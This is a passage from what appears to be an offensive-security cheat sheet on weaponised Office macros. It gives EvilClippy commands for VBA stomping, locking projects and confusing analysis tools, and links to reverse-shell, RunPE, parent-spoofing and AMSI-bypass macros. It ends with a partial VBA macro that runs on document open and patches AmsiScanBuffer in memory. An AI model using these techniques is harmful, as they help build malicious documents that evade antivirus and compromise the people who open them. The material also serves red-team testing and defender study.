 ```ps1
# OSX/Linux
mcs /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 
# Windows
csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 

EvilClippy.exe -s fake.vbs -g -r cobaltstrike.doc
EvilClippy.exe -s fakecode.vba -t 2016x86 macrofile.doc
EvilClippy.exe -s fakecode.vba -t 2013x64 macrofile.doc

# make macro code unaccessible is to mark the project as locked and unviewable: -u
# Evil Clippy can confuse pcodedmp and many other analysis tools with the -r flag.
EvilClippy.exe -r macrofile.doc
```


## VBA - Offensive Security Template

* Reverse Shell VBA - https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell/blob/main/VBA-Reverse-Shell.vba
* Process Dumper - https://github.com/JohnWoodman/VBA-Macro-Dump-Process
* RunPE - https://github.com/itm4n/VBA-RunPE
* Spoof Parent - https://github.com/py7hagoras/OfficeMacro64
* AMSI Bypass - https://github.com/outflanknl/Scripts/blob/master/AMSIbypasses.vba
* amsiByPassWithRTLMoveMemory - https://gist.github.com/DanShaqFu/1c57c02660b2980d4816d14379c2c4f3
* VBA macro spawning a process with a spoofed parent - https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba

## VBA - AMSI

> The Office VBA integration with AMSI is made up of three parts: (a) logging macro behavior, (b) triggering a scan on suspicious behavior, and (c) stopping a malicious macro upon detection. https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/


![](https://www.microsoft.com/security/blog/wp-content/uploads/2018/09/fig2-runtime-scanning-amsi-8-1024x482.png)

:warning: It appears that p-code based attacks where the VBA code is stomped will still be picked up by the AMSI engine (e.g. files manipulated by our tool EvilClippy).

The AMSI engine only hooks into VBA, we can bypass it by using Excel 4.0 Macro

* AMSI Trigger - https://github.com/synacktiv/AMSI-Bypass

```vb
Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProtect As Long, lpflOldProtect As Long) As Long
Private Declare PtrSafe Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)
 
Private Sub Document_Open()
    Dim AmsiDLL As LongPtr
    Dim AmsiScanBufferAddr As LongPtr
    Dim result As Long
    Dim MyByteArray(6) As Byte
    Dim ArrayPointer As LongPtr
 
    MyByteArray(0) = 184 ' 0xB8
    MyByteArray(1) = 87  ' 0x57
    MyByteArray(2) = 0   ' 0x00
    MyByteArray(3) = 7   ' 0x07
    MyByteArray(4) = 128 ' 0x80
```